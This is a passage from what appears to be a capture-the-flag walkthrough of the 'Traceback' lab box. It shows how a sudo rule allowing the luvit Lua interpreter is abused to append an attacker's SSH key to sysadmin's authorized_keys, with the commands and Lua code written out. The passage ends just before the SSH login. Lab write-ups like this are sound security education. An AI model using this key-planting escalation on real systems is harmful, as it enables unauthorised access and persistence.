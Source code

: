     User webadmin may run the following commands on traceback:
        (sysadmin) NOPASSWD: /home/webadmin/luvit
    

[Luvit](https://luvit.io/) is a Async I/O for Lua, similar to Node.js.

In webadmin’s `.bash_history` file, there’s the commands that presumably the
attacker ran:

    
    
    webadmin@traceback:~$ cat .bash_history 
    ls -la
    sudo -l
    nano privesc.lua
    sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
    rm privesc.lua
    logout
    

I can’t access `/home/sysadmin`, but the `luvit` binary must be there because
running it starts a
[repl](https://en.wikipedia.org/wiki/Read%E2%80%93eval%E2%80%93print_loop):

    
    
    webadmin@traceback:~$ /home/sysadmin/luvit
    -bash: /home/sysadmin/luvit: Permission denied
    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
    Welcome to the Luvit repl!
    > 
    

### Write SSH Key

I’ll create a simple Lua script that writes my SSH key into sysadmin’s
`authorized_keys` file at `/dev/shm/.0xdf.lua`:

    
    
    authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
    authkeys:write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\n")
    authkeys:close()
    

The filename is arbitrary, but it does need to end in `.lua`.

Running it fails on it’s own, but using `sudo` to run as sysadmin works
without issue:

    
    
    webadmin@traceback:~$ /home/sysadmin/luvit /dev/shm/.0xdf.lua 
    -bash: /home/sysadmin/luvit: Permission denied
    
    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit /dev/shm/.0xdf.lua
    

### SSH

Now I can SSH as sysadmin:

